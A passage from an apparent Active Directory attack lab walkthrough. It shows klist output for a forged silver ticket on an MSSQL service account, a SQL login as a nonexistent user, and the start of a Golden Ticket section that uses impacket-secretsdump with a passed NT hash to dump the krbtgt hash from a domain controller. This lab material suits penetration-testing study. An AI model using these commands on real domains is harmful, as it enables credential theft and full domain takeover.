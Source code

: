 ```cmd
C:\Users\dummy>klist

Current LogonId is 0:0x3441a5

Cached Tickets: (1)

#0>     Client: nonexistentuser @ LAB.VX
        Server: MSSQLSvc/svr.lab.vx:1433 @ LAB.VX
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40a00000 -> forwardable renewable pre_authent
        Start Time: 4/18/2022 9:15:16 (local)
        End Time:   4/15/2032 9:15:16 (local)
        Renew Time: 4/15/2032 9:15:16 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0
        Kdc Called:
```

### 4.3.6. Attempt login to service

```cmd
C:\Users\dummy>"C:\Program Files\Microsoft SQL Server\Client SDK\ODBC\170\Tools\Binn\SQLCMD.EXE" -S svr.lab.vx
1> SELECT SYSTEM_USER;
2> GO

--------------------------------------------------------------------------------------------------------------------------------
LAB\nonexistentuser

(1 rows affected)
```

# 5. Golden Ticket

## 5.1. Using impacket

If you already have password or hash of domain admin user, the attack can be performed from Kali via impacket

> [!Tip]
>
> All Impacket scripts can be called in Kali with `impacket-<script name>`, there's no need to do `python3 /usr/share/doc/python3-impacket/examples/<script name>.py`

### 5.1.1. Retrieve krbtgt password hash

```console
root@kali:~# impacket-secretsdump -hashes 00000000000000000000000000000000:e19ccf75ee54e06b06a5907af13cef42 lab.vx/domainadmin@192.168.17.11
⋮
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
⋮
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:09320ee4ca4f627b183bba1335d1c0c7:::
⋮
```
